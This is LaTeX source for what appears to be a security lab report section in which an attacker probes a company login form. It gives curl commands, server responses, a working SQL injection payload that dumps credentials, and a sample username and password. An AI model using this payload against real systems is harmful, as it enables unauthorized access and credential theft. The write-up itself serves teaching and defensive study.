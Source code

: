 \documentclass[a4paper, 12pt, oneside]{extbook}
\begin{document}
In this case, the attacker Bob uses a mix of remote exploits to gain root access on the Employee PC.

\section{Sql Injection}
The attacker starts from the company web service by filling the login form with different combinations:

\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=&password=b' 193.20.3.1:8080 
\end{lstlisting}
In this case, the website uses an url-encoded form, so the attacker can send the data as an url-encoded string. This one returns "Error value(s) missing".
\newline The attacker tries to tamper the form with another combination:
\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=a&password=b' 193.20.3.1:8080
\end{lstlisting}
which returns:
\begin{lstlisting}[style=DOS]
$ {"success":false,"response":"No user found","result":[]}
\end{lstlisting}
Lastly, the attacker can try to insert a payload with a MySQL Injection, that uses OR and the commenting syntax:
\begin{lstlisting}[style=DOS]
$ curl -X POST -d 'username=" OR 1<2; -- &password=b' \
$ 193.20.3.1:8080
\end{lstlisting}
which returns a list of credentials:
\begin{center}
  \includegraphics[scale=0.5]{../Image/webserver_sql.PNG}
\end{center}
including an entry related to the user Tom:
\begin{lstlisting}[style=DOS]
  username = tcasaccio1
  password = YLN1NrMdGN
\end{lstlisting}
\end{document}
